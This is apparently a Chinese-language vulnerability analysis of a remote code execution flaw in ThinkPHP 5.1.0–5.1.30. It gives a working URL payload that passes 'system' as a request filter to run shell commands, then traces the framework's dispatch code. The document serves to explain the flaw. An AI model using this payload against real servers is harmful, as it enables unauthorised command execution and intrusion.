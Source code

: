 ## RCE方法1

### 5.1.x版本

5.1.0<=ThinkPHP<=5.1.30

`?s=index/\think\Request/input&filter[]=system&data=pwd`

```php
#/public/index.php
<?php
// [ 应用入口文件 ]
namespace think;

// 加载基础文件
require __DIR__ . '/../thinkphp/base.php';

// 支持事先使用静态方法设置Request对象和Config对象

// 执行应用并响应
Container::get('app')->run()->send();#进入App->run
```

```php
#thinkphp/library/think/App.php
    /**
     * 执行应用程序
     * @access public
     * @return Response
     * @throws Exception
     */
    public function run()
    {
        try {
            ...
            $dispatch = $this->dispatch;
            if (empty($dispatch)) {
                // 路由检测
                $dispatch = $this->routeCheck()->init();#进行路由检测
            }
            ...
        }
        ...

        $this->middleware->add(function (Request $request, $next) use ($dispatch, $data) {
            return is_null($data) ? $dispatch->run() : $data;#\think\route\Dispatch::run
        });

        $response = $this->middleware->dispatch($this->request);
        /*
         * 中间件调度
         * @access public
         * @param  Request  $request
         * @param  string   $type  中间件类型

        public function dispatch(Request $request, $type = 'route')
        {
            return call_user_func($this->resolve($type), $request);#通过这个call_user_func进入$dispatch->run()
        }
        */

        ...

        return $response;
```